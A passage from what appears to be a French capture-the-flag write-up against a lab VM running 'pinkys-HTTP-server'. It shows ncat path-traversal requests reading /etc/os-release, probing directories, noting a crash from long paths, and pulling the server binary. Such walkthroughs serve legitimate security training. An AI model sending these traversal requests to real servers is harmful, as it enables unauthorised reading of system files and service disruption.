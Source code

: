
J'ai tenté en vain de trouver une clé SSH pour les utilisateurs. En revanche j'ai aussi obtenu plus de détails sur la VM :

```console
$ echo -e "GET /../../etc/os-release HTTP/1.0\r\n\r\n" | ncat 192.168.56.187 65535 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.56.187:65535.
HTTP/1.0 200 OK
Server: pinkys-HTTP-server

PRETTY_NAME="Debian GNU/Linux 9 (stretch)"
NAME="Debian GNU/Linux"
VERSION_ID="9"
VERSION="9 (stretch)"
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
Ncat: 39 bytes sent, 283 bytes received in 0.09 seconds.
```

J'ai aussi remarqué un comportement permettant de vérifier la présence de dossiers. Ainsi si on demande `/etc/` on obtient une erreur `404` mais `/etc` (sans slash terminal) retourne un code `200` :

```console
$ echo -e "GET /../../etc/ HTTP/1.0\r\n\r\n" | ncat 192.168.56.187 65535 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.56.187:65535.
HTTP/1.0 404 NOT FOUND
Server: pinkys-HTTP-server

<html><head><title>404 Not Found</title></head><body><h1>File Not Found</h1></body></html>
Ncat: 29 bytes sent, 146 bytes received in 0.09 seconds.
$ echo -e "GET /../../etc HTTP/1.0\r\n\r\n" | ncat 192.168.56.187 65535 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.56.187:65535.
HTTP/1.0 200 OK
Server: pinkys-HTTP-server

Ncat: 28 bytes sent, 4143 bytes received in 0.09 seconds.
```

J'ai continué de jouer un peu avec le serveur et il semble qu'il soit possible de le faire crasher en lui envoyant une requête un peu longue (par exemple avec un path de 1024 octets).

Le serveur s'identifie via son entête comme `pinkys-HTTP-server` et c'est justement en demandant un fichier du même nom que j'ai pu obtenir le binaire correspondant au serveur.

Comme je l'ai récupéré via `Ncat` il me restait à retirer les entêtes HTTP, chose que j'ai fait avec la commande `dd` :

```bash
dd if=pinkys-HTTP-server bs=1 skip=47 of=/tmp/server
```

